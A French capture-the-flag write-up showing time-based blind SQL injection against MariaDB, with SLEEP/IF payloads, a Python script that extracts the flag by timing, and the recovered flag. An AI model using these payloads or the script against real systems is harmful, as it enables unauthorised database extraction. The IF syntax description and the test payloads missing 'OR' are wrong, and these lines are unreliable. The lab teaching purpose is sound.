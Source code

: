 # Writeup - Injection SQL #4: Quand est-ce qu'on arrive?

La requête pour ce défi est la même que pour le défi précédent. Seule la table utilisée est différente.

```sql
SELECT id,flag FROM challenge4 WHERE id='NOTRE_INPUT';
```

La différence par rapport au défi précédent est que l'on ne nous dit même pas s'il y a eu une erreur ni s'il y a des résultats. Le principe de de défi est le même que le précédent. Par contre, il faut donc trouver une manière de créer une comportement que l'on peut distinguer afin de recevoir des réponses à des questions booléennes. Une des choses qu'on peut manipuler via MariaDB est le temps que prend le serveur pour nous envoyer la réponse. En utilisant la fonction `SLEEP`, on peut artificiellement allongé le temps que le serveur prend pour nous répondre. Avant de construire notre requête et de scripter le tout, vérifions si `SLEEP` fonctionne.

```sql
 -- Entrée
' OR SLEEP(5) --
 -- Requête
 SELECT id,flag FROM challenge4 WHERE id='' OR SLEEP(5) -- ';
```

Le délai avant d'avoir une réponse est remarquablement plus long (au moins 5 secondes). Ça fonctionne!

La prochaine étape est de rendre cet appel à `SLEEP` conditionnel à une comparaison. Pour ceci, on fera appel à la fonction SQL `IF`. Son format est `SLEEP(<condition>, <si vrai>, <si faux>)`. On peut tester notre construction ainsi:

```
 -- Entrée
' IF(1>0, SLEEP(2), 0) --
 -- Requête
SELECT id,flag FROM challenge4 WHERE id='' IF(1>0, SLEEP(2), 0) -- ;

 -- Entrée
' IF(0>1, SLEEP(2), 0) --
 -- Requête
SELECT id,flag FROM challenge4 WHERE id='' IF(0>1, SLEEP(2), 0) -- ;
```

La première de ces 2 requêtes devraient prendre plus de temps alors que la deuxième prendra environ autant de temps qu'un requête vide.

Maintenant que nous pouvons avoir un comportement distinctif conditionnel à une comparaison que l'on contrôle. Il faut adapter le script que nous avons créé pour le challenge #3 afin de regarder le temps entre la requête et la réponse comme facteur plutôt que le contenu de la page.

**NOTE**: Selon la vitesse de votre connexion, la vitesse du serveur ainsi que la variation de temps entre le déla pour les réponses normales, il vous faudra mettre un `SLEEP` plus ou moins long. Faites plusieurs requêtes pour voir le temps que prend un requête sans `SLEEP` et mettez un déla suffisant pour différencier fiablement les requêtes où le `SLEEP` est exécuté de celles où il ne l'est pas.

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-
import requests
from datetime import timedelta

URL = "https://unitedctf.ca:18000/challenge4.php"
HEADERS = {}
SLEEP_SECONDS = 0.3 # Sleep for 0.3 second. Adjust duration for your connection speed so you can differentiate responses.

query = "' OR IF(ASCII(SUBSTRING(flag, {}, 1)) > {}, SLEEP(" + str(SLEEP_SECONDS) + "), 0) -- " # Placeholders are for Position and ascii value respectively
validate = "' OR IF(flag='{}', SLEEP(" + str(SLEEP_SECONDS) + "), 0) -- "

def find_next_letter(index):
    resp = requests.Response()
    low = 0
    high = 0x7f # Maximum value in ASCII range

    # Use binary search over the ASCII range. Faster than enumerating each character
    while high > low:
        char = (low + high) // 2
        try:
            resp = requests.post(URL, data={"flagID": query.format(index, char)}, headers=HEADERS)
        except ConnectionError as e:
            print(e)
        if resp.elapsed > timedelta(seconds=SLEEP_SECONDS):
            low = char + 1
        else:
            high = char
    return chr(low)

def find_password():
    currentPass = ""
    while requests.post(URL, data={"flagID": validate.format(currentPass)}, headers=HEADERS).elapsed < timedelta(seconds=SLEEP_SECONDS):
        currentPass += find_next_letter(len(currentPass) + 1) #SUBSTRING is 1-indexed
        print(currentPass)
    return currentPass

print("Flag: " + find_password())
```

After some time, we get the flag:

Flag: **FLAG-c3qUmJTeAW_Three_Tables_for_the_Elven-admins_under_the_RDBMS_SZcIvzI3do**
